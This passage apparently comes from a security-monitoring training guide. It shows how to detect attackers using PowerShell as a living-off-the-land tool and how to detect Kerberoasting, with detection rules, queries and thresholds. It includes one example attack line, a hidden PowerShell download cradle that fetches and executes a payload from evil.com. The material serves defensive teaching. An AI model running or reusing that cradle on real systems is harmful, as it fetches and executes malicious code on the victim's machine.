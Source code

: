 **Scenario 2: Living Off The Land (LOLBins)**

Attackers use legitimate system tools for malicious purposes.

**Suspicious LOLBin usage:**
```
PowerShell download cradle:
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload')"
```

**Detection rule:**

```
Process: powershell.exe
+ Arguments contain: "DownloadString" OR "WebClient" OR "Invoke-Expression"
+ Arguments contain: "-nop" OR "-hidden" OR "-enc"
= Suspicious PowerShell
```

**Implementation:**

1. **Query:**
   ```
   process.name: "powershell.exe" AND
   process.args: ("DownloadString" OR "WebClient" OR "IEX") AND
   process.args: ("-nop" OR "-hidden" OR "-enc" OR "-w hidden")
   ```
2. **Name:** "Suspicious PowerShell Download Cradle"
3. **Severity:** High
4. **MITRE ATT&CK:** T1059.001 - PowerShell

**Scenario 3: Kerberoasting**

Attackers request service tickets to crack offline.

**Detection indicators:**
```
Multiple TGS requests
+ For SPN accounts
+ From single user
+ In short timeframe
= Potential Kerberoasting
```

**Query (Windows event logs if available):**
```
event.code: "4769" AND
event.action: "kerberos_service_ticket" AND
winlog.event_data.TicketEncryptionType: "0x17"
```

**Threshold:** > 10 TGS requests in 5 minutes from same user

---

### Hour 2: Zeek Network Security Monitor (9:00 - 10:00 AM)
